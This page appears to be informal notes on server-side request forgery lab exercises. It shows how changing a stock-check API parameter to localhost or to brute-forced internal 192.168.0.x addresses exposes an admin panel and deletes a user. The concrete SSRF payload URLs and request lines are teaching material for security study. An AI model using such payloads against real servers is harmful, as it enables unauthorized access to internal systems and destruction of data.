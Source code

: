 # SSRF

api=[http://localhost/admin](http://localhost/admin) 127.0.0.1 [http://192.168.0.1-255:8080/admin](http://192.168.0.1-255:8080/admin)

attacker might cause the server to make a connection to internal-only services within the organization's infrastructure. In other cases, they may be able to force the server to connect to arbitrary external systems.third party server connect

## SSRF against local server

i change the api to \localhost\admin [=%2F according to the format] actually no need change also can

<img width="593" height="454" alt="image" src="https://github.com/user-attachments/assets/4e3992c0-074e-44a7-b6c1-74efa8cfe042" />

we saw admin panel pop up since it retrieve the admin ui to us
we can delete the user lets delete carlos
when we burpsuite intercept and press delete carlos we saw

GET /admin/delete?username=carlos HTTP/2

<img width="727" height="434" alt="image" src="https://github.com/user-attachments/assets/a066bf96-d444-46e3-95a1-7d693d1ac07c" />

then we change the api to [http://localhost/admin/delete?username=carlos](http://localhost/admin/delete?username=carlos) we delete successfully

<img width="630" height="431" alt="image" src="https://github.com/user-attachments/assets/0a374e19-a739-4378-91c3-1cef5cef21f7" />

## SSRF against other backend-system

normally using //localhost //127.0.0.1 now using private address //192...
in this case it is [http://192.168.0.1:8080/admin](http://192.168.0.1:8080/admin)

<img width="704" height="196" alt="image" src="https://github.com/user-attachments/assets/243497c8-e148-4501-8d89-b843a801bcc9" />

basically same but just bruteforce the 19.168.0.1 -255 /admin until status code is 200 then delete again
we found that .166 is the correct private address

<img width="739" height="759" alt="image" src="https://github.com/user-attachments/assets/d105d48c-f8fe-4528-8bf1-04be3f36bc0f" />

we can see the [http://192.168.0.166:8080/admin/delete?username=carlos](http://192.168.0.166:8080/admin/delete?username=carlos)

<img width="657" height="577" alt="image" src="https://github.com/user-attachments/assets/fe26a305-34f9-4e15-be21-6f40105141e3" />

so we replace the stockAPI to this and forward and boom done

<img width="590" height="333" alt="image" src="https://github.com/user-attachments/assets/5739c532-dfc7-4d93-b488-e2c088dbe8ad" />
